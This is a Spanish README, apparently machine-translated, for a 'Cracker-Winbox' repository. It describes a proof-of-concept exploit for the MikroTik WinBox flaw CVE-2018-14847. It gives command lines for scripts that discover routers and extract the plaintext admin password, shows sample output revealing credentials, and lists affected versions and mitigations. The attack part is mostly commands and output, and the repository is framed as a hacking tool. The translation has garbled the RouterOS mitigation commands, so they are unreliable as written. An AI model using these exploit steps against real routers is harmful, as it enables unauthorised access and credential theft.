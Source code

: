 # Cracker-Winbox

#PIRATAS INFORMATICOS

WinboxExploit
Esta es una prueba de concepto de la vulnerabilidad crítica de WinBox (CVE-2018-14847) que permite la lectura de archivos arbitrarios de contraseñas de texto sin formato.


## Requisitos
- Python 3+

Este script NO se ejecutará con Python 2.xo inferior.

## Cómo utilizar
El script se usa de manera simple con argumentos simples en la línea de comandos.

#### WinBox (TCP / IP)
Explote la vulnerabilidad y lea la contraseña.
`` `
python3 WinboxExploit.py <DIRECCIÓNIP> [PUERTO]
`` `
Ejemplo:
`` `
$ python3 WinboxExploit.py 172.17.17.17
Conectado a 172.17.17.17:8291
Explotar exitosamente
Usuario: admin
Pase: Th3P4ssWord
`` `

#### Servidor MAC WinBox (Capa 2)
Puede extraer archivos incluso si el dispositivo no tiene una dirección IP.

Comprobación de descubrimiento simple para dispositivos Mikrotik conectados localmente.
`` `
python3 MACServerDiscover.py
`` `
Ejemplo:
`` `
$ python3 MACServerDiscover.py
Buscando dispositivos Mikrotik (servidores MAC)

    aa: bb: cc: dd: ee: ff

    aa: bb: cc: dd: ee: aa
`` `

Explote la vulnerabilidad y lea la contraseña.
`` `
python3 MACServerExploit.py <DIRECCIÓN MAC>
`` `
Ejemplo:
`` `
$ python3 MACServerExploit.py aa: bb: cc: dd: ee: ff

Usuario: admin
Pase: Th3P4ssWord
`` `

## Versiones Vulnerables
Todas las versiones de RouterOS del 28/05/2015 al 20/04/2018 son vulnerables a esta vulnerabilidad.

Dispositivos Mikrotik con versiones de RouterOS:

- Largo plazo: 6.30.1 - 6.40.7
- Estable: 6.29 - 6.42
- Beta: 6.29rc1 - 6.43rc3

Para obtener más información, consulte: https://blog.mikrotik.com/security/winbox-vulnerability.html

## Técnicas de mitigación
- Actualice el enrutador a una versión de RouterOS que incluya la solución.
- Deshabilite el servicio WinBox en el enrutador.
- Puede restringir el acceso al servicio WinBox a direcciones IP específicas con lo siguiente:
`` `
/ ip service set winbox address = 10.0.0.0 / 8,172.16.0.0 / 12,192.168.0.0 / 16
`` `
- Puede usar algunas Reglas de filtro (ACL) para denegar el acceso externo al servicio WinBox:
`` `
/ ip firewall filter add chain = input in-interface = wan protocol = tcp dst-port = 8291 action = drop
`` `
- Se puede limitar el acceso al servicio mac-winbox especificando las interfaces permitidas:
`` `
/ herramienta mac-server mac-winbox
`` `

## Copyright
 - Patrocinado por el CERTCC de Irán (https://certcc.ir). Todos los derechos reservados.
